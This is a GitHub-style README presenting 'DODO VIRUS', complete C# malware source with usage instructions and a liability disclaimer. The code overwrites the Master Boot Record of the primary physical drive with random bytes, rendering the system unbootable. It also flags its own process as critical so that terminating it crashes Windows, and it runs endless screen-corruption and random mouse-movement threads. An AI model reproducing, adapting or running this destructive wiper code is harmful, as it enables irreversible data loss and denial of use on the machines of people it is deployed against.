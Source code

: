 # DODO VIRUS

![Virus Preview](https://i.ibb.co/QkBqtSC/D51-B5-ECC-D63-E-43-C1-925-A-1-D380-E380584.png)

This project contains C# code that implements various bizarre effects on the system, inspired by a virus called **DOMO**, created by an individual named **ABOLHB**. The `MasonClass` code is designed to demonstrate specific functionalities that include manipulating system resources in a way that simulates various disruptive behaviors. The key features of this code include:

## Code Description

### Key Functionalities

1. **Writing to the MBR**:
   - The code includes a method that modifies the Master Boot Record (MBR) of the primary hard drive. Writing to the MBR can disrupt the boot process of a system, which can lead to data loss or inaccessibility.
   - The function generates random bytes and writes them to the MBR, essentially overwriting critical boot information. This is done through direct file access to the physical drive.

2. **Creating Screen Effects**:
   - The code employs GDI (Graphics Device Interface) functions to create visual disturbances on the screen. It achieves this by continuously drawing random areas of the screen with varying opacities, creating a flickering effect that can be quite disorienting.
   - A dedicated thread is started to handle these visual effects, allowing the main application to run concurrently without freezing the user interface.

3. **Random Mouse Movement**:
   - The code simulates mouse movement by changing the cursor's position to random coordinates on the screen. This is accomplished by invoking Windows API calls that manipulate the cursor's location.
   - Another thread manages this functionality, causing the mouse to move unpredictably, which can be frustrating for users attempting to interact with their system.

### Usage Instructions

- This code should be run on a Windows system with administrative privileges due to the nature of the operations performed, particularly writing to the MBR.
- Ensure that you have appropriate permissions and are aware of the risks involved in modifying system-level components.

![Doomoo Image](https://i.ibb.co/4156j7R/doomoo.png)

### Code Implementation

Here’s the complete implementation of the MasonClass:

```csharp
using System;
using System.Runtime.InteropServices;
using System.Threading;
using System.Diagnostics;
using System.IO;

class MasonClass
{
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    static extern IntPtr GetDC(IntPtr hWnd);
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    static extern int ReleaseDC(IntPtr hWnd, IntPtr hDC);
    [DllImport("gdi32.dll", CharSet = CharSet.Auto)]
    static extern bool BitBlt(IntPtr hdcDest, int nXDest, int nYDest, int nWidth, int nHeight, IntPtr hdcSrc, int nXSrc, int nYSrc, uint dwRop);
    [DllImport("user32.dll")]
    static extern int GetSystemMetrics(int nIndex);
    [DllImport("user32.dll")]
    static extern void SetCursorPos(int X, int Y);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr CreateFile(
        string lpFileName,
        uint dwDesiredAccess,
        uint dwShareMode,
        IntPtr lpSecurityAttributes,
        uint dwCreationDisposition,
        uint dwFlagsAndAttributes,
        IntPtr hTemplateFile);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool WriteFile(
        IntPtr hFile,
        byte[] lpBuffer,
        uint nNumberOfBytesToWrite,
        out uint lpNumberOfBytesWritten,
        IntPtr lpOverlapped);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool CloseHandle(IntPtr hObject);

    const int SM_CXSCREEN = 0;
    const int SM_CYSCREEN = 1;
    const uint NOTSRCERASE = 0x001100A6;
    const uint GENERIC_WRITE = 0x40000000;
    const uint OPEN_EXISTING = 3;

    [DllImport("ntdll.dll", SetLastError = true)]
    private static extern int NtSetInformationProcess(IntPtr processHandle, int processInformationClass, ref int processInformation, int processInformationLength);
    private const int ProcessInformationClass = 29;

    static void Main()
    {
        MasonWriteMBR(); // Call to write to MBR
        Process currentProcess = Process.GetCurrentProcess();
        IntPtr handle = currentProcess.Handle;
        int isCritical = 1; 
        NtSetInformationProcess(handle, ProcessInformationClass, ref isCritical, sizeof(int));
        int screenWidth = GetSystemMetrics(SM_CXSCREEN);
        int screenHeight = GetSystemMetrics(SM_CYSCREEN);
        MasonStartEffect(screenWidth, screenHeight); // Start visual effects
        MasonMoveMouseRandomly(screenWidth, screenHeight); // Start mouse movement
        while (true) // Keep the application running
        {
            Thread.Sleep(1000);
        }
    }

    static void MasonWriteMBR()
    {
        using (FileStream fs = new FileStream(@"\\.\PhysicalDrive0", FileMode.Open, FileAccess.Write))
        {
            byte[] mbrData = new byte[512]; // Buffer for MBR data
            Random rand = new Random();
            rand.NextBytes(mbrData); // Fill buffer with random bytes
            fs.Write(mbrData, 0, mbrData.Length); // Write to MBR
        }
    }

    static void MasonStartEffect(int screenWidth, int screenHeight)
    {
        Random rand = new Random();
        new Thread(() =>
        {
            while (true)
            {
                IntPtr hdc = GetDC(IntPtr.Zero);
                BitBlt(hdc, rand.Next(15), rand.Next(15), screenWidth, screenHeight, hdc, rand.Next(15), rand.Next(15), NOTSRCERASE);
                ReleaseDC(IntPtr.Zero, hdc);
                Thread.Sleep(10);
            }
        }).Start();
    }

    static void MasonMoveMouseRandomly(int screenWidth, int screenHeight)
    {
        Random rand = new Random();
        new Thread(() =>
        {
            while (true)
            {
                int x = rand.Next(0, screenWidth);
                int y = rand.Next(0, screenHeight);
                SetCursorPos(x, y); // Move mouse to random position
                Thread.Sleep(300); // Pause before next movement
            }
        }).Start();
    }
}
```
---
We hereby declare that we disclaim any liability for any improper use of the software Thank you for your understanding
